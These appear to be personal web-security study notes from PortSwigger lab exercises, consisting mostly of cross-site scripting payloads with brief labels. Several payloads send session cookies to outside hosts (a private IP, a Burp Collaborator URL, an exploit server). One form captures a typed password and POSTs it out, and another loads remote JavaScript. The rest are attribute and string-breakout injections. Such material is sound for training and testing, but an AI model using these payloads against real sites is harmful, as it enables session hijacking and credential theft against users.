 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
PDF XSS : https://drive.google.com/file/d/1nsDVQufUY1KRxA6tGgSlp4infmuQEIfp/view
Burp Pro Deep Active Scan detects simple Reflected XSS:
![[Pasted image 20240229102907.png]]
Also DOM Based Basic
![[Pasted image 20240229105537.png]]
Send TO Victim Payloads:
```
<iframe src="https://0ae8000403c2b63d86144f3a00cb009a.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<script>
location="https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>"
</script>

<img src=x onerror=fetch('http://10.10.16.40/'+document.cookie);>

(stored)
<script>
location="https://burpcolaborator/?leaked=" + document.cookie;
</script>

<a href=# onclick="window.open('https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>')">XSS</a>" (user interaction required)

(create a form and fetch passwd)
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">



Load Remote JS:
<img SRC=x onerror="var script1 = document.createElement('script'); script1.src = 'http://oastify.com'; document.head.appendChild(script1);"/>

```
Payloads
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<img src=1 oNeRrOr=alert`1`>

In HTTP-Smuggling f.e:
User-Agent: "><script>alert(document.cookie);var x=new
XMLHttpRequest();x.open("GET","https://<exploit-server>/"+document.cookie);x.send();</script>


(attribute with angle brackets encoded)
j1kde"onfocus="alert(1)"autofocus="ava00 
"onmouseover="alert(1)

(javascript string with angle brackets encoded):
17762';alert(1)//824
'-alert(1)-'

backslash instead of encoding:
(var tracker={track(){}};tracker.track('http://pito.com');-alert(1)//');)
http://pito.com?&apos;-alert(1)-&apos;
http://pito.com&#39;);-alert(1)//

```